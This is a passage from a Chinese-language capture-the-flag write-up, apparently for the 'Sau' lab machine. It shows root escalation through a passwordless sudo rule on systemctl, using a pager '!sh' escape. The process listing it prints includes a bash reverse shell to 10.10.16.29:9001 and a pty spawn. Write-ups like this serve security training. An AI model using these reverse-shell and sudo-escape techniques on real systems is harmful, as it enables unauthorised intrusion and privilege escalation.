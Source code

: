 ```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

### Shell Escape Sequences - sudo环境下的systemctl提权

可以发现有一条命令sudo执行是不要密码的，先尝试直接运行看看——输出了一堆像是进程命令的记录到屏幕……

在[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)上面搜 `systemctl` 也会很容易发现有sudo时的提权方式，但是由于我运行命令后似乎是所有结果都输出到了屏幕，然后直接回到prompt模式，所以我并不能按照它说的执行“!sh”进行提权。

又仔细看看[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)里的内容，注意到下面写了句“This invokes the default pager, which is likely to be less, other functions may apply.”。  
于是琢磨这个 `less`，既然less能翻页。那么提权失败是不是因为没有调用出所谓的“default pager”，所以之前运行命令才会一堆结果直接输出到屏幕？而没有调用“default pager”给我使用，可能是因为当前不是交互shell？

于是转为交互式shell之后再次尝试，果然就正常了。提权也按照[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)里的内容，十分简单：
```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sun 2023-07-09 05:26:40 UTC; 2h 13min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 889 (python3)
      Tasks: 93 (limit: 4662)
     Memory: 186.2M
     CGroup: /system.slice/trail.service
             ├─  889 /usr/bin/python3 server.py
             ├─  960 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  964 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  968 bash
             ├─  969 bash -c bash -i >& /dev/tcp/10.10.16.29/9001 0>&1
             ├─  970 bash -i
             ├─  981 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  982 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  984 bash
             ├─  985 bash -i
             ├─  997 python3 -c import pty;pty.spawn("/bin/bash")
             ├─  998 /bin/bash
             ├─ 4311 /usr/bin/systemctl status trail.service
             ├─ 4312 pager
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```
